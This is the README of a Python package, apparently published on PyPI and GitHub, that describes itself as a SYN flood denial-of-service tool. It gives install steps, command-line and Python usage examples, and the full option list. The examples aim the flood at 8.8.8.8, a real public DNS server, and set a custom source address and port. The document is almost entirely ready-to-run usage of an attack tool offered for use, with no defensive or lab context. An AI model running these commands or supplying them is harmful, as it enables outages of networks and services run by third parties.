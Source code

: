 ![SynFlood logo](https://mauricelambert.github.io/info/python/security/SynFlood_small.png "SynFlood logo")

# SynFlood

## Description

This package implements a SYN flood attack (DOS attack: Denial Of Service).

## Requirements

This package require:

 - python3
 - python3 Standard Library
 - Scapy

## Installation

```bash
pip install SynFlood 
```

## Examples

### Command lines

```bash
python3 -m SynFlood --help

python3 SynFlood.pyz --verbose --dport 80 --source 0.0.0.0 --sport 45586 --interface 172.16.0. --data abc 8.8.8.8

SynFlood -h
SynFlood 8.8.8.8
SynFlood -v -p 80 -s 0.0.0.0 -P 45586 -i 172.16.0. -d abc 8.8.8.8
```

### Python3

```python
from SynFlood import synflood, conf_iface
synflood("8.8.8.8", 80, "0.0.0.0", 45586)
synflood("8.8.8.8", 80, "0.0.0.0", 45586, b"abc", conf_iface)
```

## Link

 - [Github Page](https://github.com/mauricelambert/SynFlood)
 - [Pypi](https://pypi.org/project/SynFlood/)
 - [Documentation](https://mauricelambert.github.io/info/python/security/SynFlood.html)
 - [Python Executable](https://mauricelambert.github.io/info/python/security/SynFlood.pyz)

## Help

```
usage: SynFlood [-h] [--dport DPORT] [--source SOURCE] [--sport SPORT] [--data DATA] [--verbose] [--interface INTERFACE] target

This script implements a SynFlood attack.

positional arguments:
  target                Target IP or hostname.

optional arguments:
  -h, --help            show this help message and exit
  --dport DPORT, -p DPORT
                        Destination port.
  --source SOURCE, -s SOURCE
                        Source IP.
  --sport SPORT, -P SPORT
                        Source port.
  --data DATA, -d DATA  Additional data
  --verbose, -v         Mode verbose (print debug message)
  --interface INTERFACE, -i INTERFACE
                        Part of the IP, MAC or name of the interface
```

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).
